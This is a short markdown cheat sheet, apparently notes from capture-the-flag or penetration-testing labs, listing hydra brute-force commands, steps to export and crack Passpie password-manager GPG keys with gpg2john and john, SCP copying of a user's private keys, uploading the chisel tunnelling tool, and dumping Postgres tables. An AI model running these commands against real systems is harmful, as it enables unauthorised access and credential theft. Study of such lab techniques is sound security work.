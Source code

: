 
## LOGIN
### hydra:
- `hydra -l user -P passlist.txt ftp://192.168.0.1`
- `hydra -L users.txt -p password123 ftp://192.168.0.1`
   - `-l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE`
   - `-p PASS  or -P FILE  try password PASS, or load several passwords from FILE`

# PASSWORDS MANAGERS
## Passpie:
- `passpie export password.db` Exports passwords to plain text
- "download .keys to local machine"
- "remove the public key block from the file as we only need the private key"
- `gpg2john keys > keys.hash`
- `john -wordlist=/usr/share/wordlists/rockyou.txt keys.hash --format=gpg`
- `passpie export ~/password.db`
- `cat ~/password.db`

# WORDPRESS
- "search for wp-config.php"

# PROTOCOLS
## SSH
### CONNECTION:
- `ssh john@10.10.10.10 -p 22`

### DOWNLOAD FILES: (on local machine)
- `scp jnelson@10.10.11.186:/home/jnelson/.passpie/.keys ./keys`

### UPLOAD FILES: (on local machine)
- `scp chisel machine@10.10.10.10:/tmp `

## FTP
### CONNECTION:
- `ftp 10.10.11.186`

### DOWNLOAD FILES:
- `get file.txt`

# DATABASES
## POSTGRES
- `psql -h 127.0.0.1 -U postgres` - Connect DB
- `\l` - List all databases
- `\c “db”;` - Select DB
- `\dt;` - List all tables
- `Select * from users;` - Dump table data
